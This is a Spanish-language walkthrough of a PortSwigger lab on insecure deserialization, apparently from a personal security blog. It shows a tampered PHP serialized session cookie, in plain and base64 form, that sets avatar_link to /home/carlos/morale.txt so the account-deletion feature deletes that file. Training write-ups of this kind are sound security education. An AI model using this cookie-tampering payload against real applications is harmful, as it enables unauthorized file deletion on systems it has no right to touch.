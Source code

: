 ```yaml
---
title: Using application functionality to exploit insecure deserialization
description: Laboratorio de Portswigger sobre Insecure Deserialization
date: 2024-12-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Insecure Deserialization
tags:
  - Portswigger Labs
  - Insecure Deserialization
  - Using application functionality to exploit insecure deserialization
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo basado en `serialización` para manejar las `sesiones`. Una determinada `característica` invoca un método tomando como parámetro los `datos` proporcionados en un `objeto serializado`. Para `resolver` el laboratorio, debemos `editar` el `objeto serializado` en la `cookie` de la `sesión` y usarlo para `eliminar` el archivo `morale.txt` del directorio de inicio de `Carlos`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter` También tenemos acceso a una cuenta de respaldo, a la que podemos acceder con las credenciales `gregg:rosebud`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-3/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-3/image_2.png)

Al iniciar sesión vemos esto

![](/assets/img/Insecure-Deserialization-Lab-3/image_3.png)

Si pulsamos sobre `Delete account` y capturamos la petición con Burpsuite

![](/assets/img/Insecure-Deserialization-Lab-3/image_4.png)

Podemos modificamos la `ruta` al `avatar`

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"igl0w35pzxoaof1o4fsavaudvun2e95u";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

Nos copiamos el valor de session modificado, nos dirigimos al navegador y pulsamos `Ctrl + Shift + i`

```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImpxeHFjYTFsNDYxY2o2ZHcxeDI0YndmM2NxaWx1NnU5IjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```

![](/assets/img/Insecure-Deserialization-Lab-3/image_5.png)

`Refrescamos` la página pulsando `F5` y pulsamos en `Delete account` nuevamente para borrar el archivo alojado en `/home/carlos/morale.txt`
